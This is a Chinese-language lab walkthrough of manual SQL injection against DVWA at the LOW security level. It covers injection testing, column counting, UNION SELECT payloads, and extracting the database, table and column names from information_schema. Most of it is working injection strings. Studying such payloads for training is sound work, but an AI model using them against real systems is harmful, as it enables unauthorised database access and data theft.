 ### 手工注入

#### LOW

**1.判断是否存在注入，注入是字符型还是数字型**

```
1
1' and '1'='1
1' and '1'='2
1' or '1'=1
```

**2.猜解 SQL 查询语句中的字段数**

```
1′ or 1=1 order by 1 #
1′ or 1=1 order by 2 #
...
1′ or 1=1 order by n #
```

**3.确定显示的字段顺序**

输入 1' union select 1,2 #

![image-20221113153425072.png](https://img.ghostliner.top/nJb45a.png)

说明执行的 SQL 语句为 select First name,Surname from 表 where ID='id'…

**4.获取当前数据库**

```
输入1' union select 1,database() #
```

可得数据库名为`dvwa`

**5.获取数据库中的表**

```
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
```

若报错：Illegal mix of collations for operation 'UNION' 改为

```
1' union select 1,group_concat(table_name) COLLATE utf8_general_ci from information_schema.tables where table_schema=database() #
```

![image-20221113154139644.png](https://img.ghostliner.top/gaHnv1.png)

可得表有`guestbook` `users`

**6.获取表中的字段名**

```
1' union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' #
```
